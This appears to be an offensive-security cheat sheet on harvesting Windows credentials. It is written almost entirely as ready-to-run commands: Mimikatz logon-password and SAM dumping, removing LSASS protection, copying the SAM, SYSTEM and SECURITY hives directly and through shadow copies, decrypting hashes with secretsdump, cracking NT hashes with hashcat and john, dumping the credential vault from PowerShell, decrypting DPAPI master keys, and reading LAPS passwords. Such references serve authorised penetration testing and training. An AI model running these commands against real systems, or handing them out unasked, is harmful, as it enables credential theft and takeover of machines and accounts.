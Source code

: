 # Credentials harvesting

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords //NTLM and SHA1 hashes
sekurlsa::credman        //vault credentials
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred    //vault credentials
vault::list    //credman plaintext passwords
```

if the logonpassword command returns an error `Handle on memory (0x00000005)` use the following commands in Mimikatz to disable LSASS protection

```
!+
!processprotect /process:lsass.exe /remove
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## SAM

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes. All the following operations require Admin privileges

Enumerate existing copies

```
vssadmin list shadows
```

Create a new shadowCopy archive

```
wmic shadowcopy call create Volume='C:\'
```

Create a link to the copy

<pre><code><strong>mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\&#x3C;shadow copy volume name>\
</strong></code></pre>

IF you're unable to navigate the link due to access permission errors It is still possible to extract files from the shadow copy

```
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\sam <dest>\sam
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\system <dest>\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

<pre><code>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> LOCAL
<strong>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> -security &#x3C;sec file> LOCAL
</strong></code></pre>

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks. In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## Vault credentials dump

Enumerate credentials manager entries

```
vaultcmd /list
VaultCmd /listcreds:"<entry name>"
```

Dump credentials associated with the vault entry

```
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```

## DPAPI

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## LAPS

Verify that LAPS is installed by searching for `admpwd.dll` usually in `C:\Program Files\LAPS\CSE`

Check available commands in PowerShell

```
Get-Command *AdmPwd*
```

Find groups allowed to interact with LAPS

```
Find-AdmPwdExtendedRights -Identity *
Find-AdmPwdExtendedRights -Identity <user>
```

Get users of the detected group

```
net groups "<group>"
```

Run the following command in the context of a user part of the  group allowed to interact with LAPS to dump the stored passwords. The target is the machine with LAPS enabled

```
Get-AdmPwdPassword -ComputerName <target>
```
